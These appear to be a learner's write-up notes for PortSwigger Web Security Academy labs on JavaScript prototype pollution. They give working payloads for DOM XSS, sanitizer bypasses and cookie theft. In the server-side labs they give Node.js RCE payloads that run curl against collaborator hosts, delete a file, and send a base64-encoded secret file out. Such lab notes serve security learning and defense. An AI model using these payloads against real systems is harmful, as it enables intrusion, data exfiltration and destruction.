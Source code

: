 # Prototype Pollution

Prototype pollution is a JavaScript security bug where an attacker injects or changes properties on Object.prototype (the base object every normal object inherits from). Because most objects inherit from that prototype, changing it can silently change app behavior and lead to serious issues — often remote code execution, data tampering, or DOM XSS in browsers.



## How it works (simple steps)
- JavaScript objects inherit from Object.prototype.
	- Example: {} → inherits properties from Object.prototype.
- If an attacker can control a property name like __proto__ or constructor.prototype through user input (query strings, JSON, form fields), they can change that prototype.
- After pollution, any object that checks or uses the polluted property will see the attacker-controlled value.

Example payloads:
- Query-string style: /?__proto__[isAdmin]=true
- JSON-like (if an app naively merges user JSON into config): ``` {"__proto__":{"role":"admin"}} ```
```js
// before
Object.prototype.marker // undefined

// attacker injects ?__proto__[marker]=owned
Object.prototype.marker // "owned"
({}).marker             // "owned"  <-- every object now has marker

```

## Lab: Client-side prototype pollution via browser APIs

- Goal: Exploit client-side prototype pollution to trigger a DOM XSS (script.src) sink.

Manual approach

- Find pollution source: Inject into query string 
	- 	/?__proto__[foo]=bar and verify Object.prototype.foo appears in the browser console.
- Identify gadget: Inspect site scripts (Sources). 
	-	In searchLoggerConfigurable.js a transport_url is dynamically appended as a <script> but was made non-writable/unconfigurable with Object.defineProperty() without defining a value property — this creates a gadget that reads value.
- Exploit: Pollute prototype so the gadget picks up a value property: 
	-	/?__proto__[value]=data:,alert(1); — the page renders <script src="data:,alert(1);"> and alert(1) runs, solving the lab.

DOM Invader (Burp) approach

	- Load lab in Burp browser, enable DOM Invader with prototype-pollution option.
	- Reload; DOM Invader finds prototype-pollution vectors in the query string.
	- Click Scan for gadgets → DOM Invader locates the value gadget and the script.src sink.
	- Click Exploit → DOM Invader auto-generates the POC and triggers alert(1).
Key takeaway: Prototype pollution via __proto__ can inject properties that interact with existing DOM-creating gadgets (e.g., script insertion) to achieve DOM XSS.


---


## Lab:  DOM XSS via client-side prototype pollution

Goal: Use prototype pollution to control a script src and trigger DOM XSS.

Manual steps (quick):

-	Find pollution vector: Inject into query string:
	-	/?__proto__[foo]=bar → confirm Object.prototype.foo === "bar" in DevTools Console.
-	Identify gadget: Inspect site scripts (Sources). 
	-	searchLogger.js will append a <script> if config.transport_url exists — a potential gadget if that property is read later.
-	Exploit: Pollute the prototype with transport_url:
	-	/?__proto__[transport_url]=data:,alert(1);
	Check Elements — a <script src="data:,alert(1);"> appears and alert(1) runs. Lab solved.

Automated (Burp DOM Invader):

	- Load lab in Burp browser → enable DOM Invader + prototype-pollution.
	- Reload: it finds pollution vectors in the query string.
	- Click Scan for gadgets → it finds the transport_url gadget and the script.src sink.
	- Click Exploit → DOM Invader generates a POC and triggers alert(1).

Key takeaway: Polluting __proto__ can inject properties (like transport_url) that existing client-side code uses to create DOM elements (e.g., script tags), enabling DOM XSS.

---

## Lab: DOM XSS via an alternative prototype pollution vector

Goal: Exploit prototype pollution to inject malicious JavaScript into an eval() sink.

Manual solution

- Find prototype pollution source:

	- Test /?__proto__[foo]=bar → no effect.

	- Try /?__proto__.foo=bar → success (Object.prototype.foo now equals "bar").

- Identify gadget:

	- In searchLoggerAlternative.js, an eval() sink uses manager.sequence, which isn’t defined — potential gadget.

- Craft exploit:

	- Inject payload:
		- /?__proto__.sequence=alert(1)
		- → error occurs, showing alert(1)1 (extra “1” breaks syntax).

	- Fix syntax by appending a minus:
		- /?__proto__.sequence=alert(1)-
		- → valid JS, triggers alert(1) and solves the lab.

DOM Invader solution

	- Enable prototype pollution option and reload page.
	- DOM Invader detects pollution vector in query string.
	- Scan for gadgets → finds eval() sink via sequence property.
	- Generated PoC fails initially due to the trailing 1 in payload.
	- Manually append - to the payload in URL → alert(1) executes successfully.



Key takeaway:
	- By polluting Object.prototype with a property used by an eval() sink, you can inject and execute JavaScript (DOM XSS). Sometimes, syntax adjustments (like adding -) are needed to fix malformed payloads.

---

## Lab: Client-side prototype pollution via flawed sanitization

Goal: Bypass the app’s key-sanitization to pollute Object.prototype, then control a script.src gadget to trigger DOM XSS.

How the bypass works :

- Simple __proto__ or constructor.prototype attempts are blocked by the site’s sanitizeKey() blocklist, so /?__proto__.foo=bar and similar fail.

- The filter isn’t recursive and can be bypassed by obfuscating the blocked key so the sanitizer misses it but the parser still interprets it. Example bypass forms used:

	- /?__pro__proto__to__[foo]=bar
	- /?__pro__proto__to__.foo=bar
	- /?constconstructorructor[protoprototypetype][foo]=bar
	- /?constconstructorructor.protoprototypetype.foo=bar

- After injecting one of those, Object.prototype.foo === "bar" — prototype pollution achieved.

Finding the gadget:

- Inspect site JS. searchLogger.js dynamically appends a <script> using config.transport_url if present.

- config.transport_url is not normally defined — a perfect gadget if you can supply it through the polluted prototype.

Exploit (POC):

- Pollute the prototype with transport_url:
	- /?__pro__proto__to__[transport_url]=data:,alert(1);

- The page renders <script src="data:,alert(1);"> and alert(1) executes → lab solved.

Key takeaway: Even when direct __proto__ keys are blocked, non-recursive sanitizers can be bypassed by tricking the parser with obfuscated key names. If client-side code later reads a property (e.g., transport_url) to build DOM (script.src), that polluted property can be used to trigger DOM XSS.


---

## Lab: Client-side prototype pollution in third-party libraries

Goal: Use prototype pollution delivered in the URL fragment (#...) to control a setTimeout() sink (hitCallback) and execute code (steal cookie).


- Load the lab in Burp’s built-in browser.
- Enable DOM Invader and turn on the prototype pollution option.
- Open DevTools → DOM Invader tab and reload the page. DOM Invader finds two pollution vectors in the URL hash (fragment).
- Click Scan for gadgets → wait for the gadget scan. It finds a hitCallback gadget that reaches a setTimeout() sink.
- Click Exploit → DOM Invader auto-generates a POC and runs alert(1) (proof the sink is exploitable).
- Disable DOM Invader.
- On the lab’s exploit server, create an HTML payload that navigates victims to a malicious URL containing the polluted hash. Example body:

```html
<script>
  location="https://YOUR-LAB-ID.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>

```
- Test the exploit yourself (confirm navigation and that alert(document.cookie) runs).
- Deliver the exploit to a victim to solve the lab.

Key takeaway: Prototype pollution delivered via the URL fragment can be discovered and weaponized with DOM Invader. If a gadget (here hitCallback) feeds attacker-controlled properties into DOM timers (setTimeout), you can execute arbitrary JS (e.g., alert(document.cookie)) by getting the victim to visit a crafted URL.

---

## Lab: Privilege escalation via server-side prototype pollution

Goal: Pollute server-side object prototype via a JSON request to become an admin and delete the carlos user


- Inspect address update: Log in, submit the account address form. In Burp HTTP history find the POST /my-account/change-address request — the form data is sent as JSON and the server responds with a JSON user object.

- Prototype pollution test: Send the request to Repeater and add:
	```json
	"__proto__": { "foo": "bar" }

	```
	- Send it — the response user object now shows foo: "bar" (but no __proto__), indicating prototype pollution (inherited property).

- Find gadget: The response has isAdmin: false — this property is read by the app to show admin links.

- Exploit: Modify JSON to:
	```json
	"__proto__": { "isAdmin": true }

	```
Key takeaway: Untrusted JSON merged into server-side objects can pollute Object.prototype. If the app relies on properties like isAdmin from user objects, prototype pollution lets an attacker escalate privileges.

---

## Lab: Detecting server-side prototype pollution without polluted property reflection

- Log into the account page and submit the change-address form while capturing the POST /my-account/change-address in Burp Proxy.

- Send the request to Burp Repeater and note the server exchanges JSON representing the user.

- Add an injected : 
	```__proto__ property (e.g. {"__proto":{"foo":"bar"}}) ``` and resend — response may not immediately show the injected field.

- Intentionally break the JSON to get an error response (500) whose error object contains a status: 400.

- Restore valid JSON, change the injected __proto__ to include a custom status (must be between 400–599), e.g. ``` {"__proto":{"status":555}},``` and resend — get normal user response.

- Break the JSON again; this time the error object’s status/statusCode reflect the injected value from Object.prototype, confirming prototype pollution and solving the lab.

One-line takeaway: use __proto__ injection plus triggering an error path to prove Object.prototype was polluted (observed via modified error status).

---



## Lab: Remote code execution via server-side prototype pollution

- Log in, update your address, and capture the POST /my-account/change-address request in Burp.

- Send it to Repeater and test prototype pollution by injecting:
```json
"__proto__": { "json spaces": 10 }

```

- Visit the admin panel and note that running maintenance jobs likely spawns Node.js child processes.

- Exploit this by injecting:
```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"]
}

```
Trigger maintenance jobs — the Burp Collaborator receives DNS hits, confirming remote code execution (RCE).


- Finally, replace the payload with:
```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"]
}

```
Trigger the jobs again — Carlos’s file is deleted, solving the lab.

In short: Prototype pollution via __proto__ leads to Node.js RCE by manipulating execArgv, enabling arbitrary command execution and file deletion.

---

## Lab: Exfiltrating sensitive data via server-side prototype pollution
Study the Address Change Feature

	- Log in and update your address via the account page.
	- In Burp Suite, locate the POST /my-account/change-address request.
	- Observe the JSON response reflecting the updated address.

Identify Prototype Pollution

	- Send the request to Burp Repeater.
	- Inject a __proto__ property with 
	```json
	{"json spaces":10}.
	```
	- Confirm prototype pollution by observing increased JSON indentation in the response.

Trigger Remote Code Execution (RCE)

	- Go to the admin panel and trigger maintenance jobs.
	- Inject malicious properties into __proto__ to exploit child_process.execSync():
	```json
	"__proto__": {
  	"shell": "vim",
 	 "input": ":! curl https://YOUR-COLLAB-ID.oastify.com\n"
	}
	```
	- Trigger the job and confirm RCE via Burp Collaborator interactions.

Leak Hidden File Name

	- Modify payload to list Carlos’s home directory:
	```json
	"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @- https://efx04r0pkeiu1i637j4n8s9kbbh25xtm.oastify.com\n"
	}
	```

Exfiltrate Secret File

- Update payload to read and exfiltrate /home/carlos/secret:
```json
	"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://efx04r0pkeiu1i637j4n8s9kbbh25xtm.oastify.com\n"
	}
```
- Trigger the job, decode the Base64 response, and retrieve the secret.
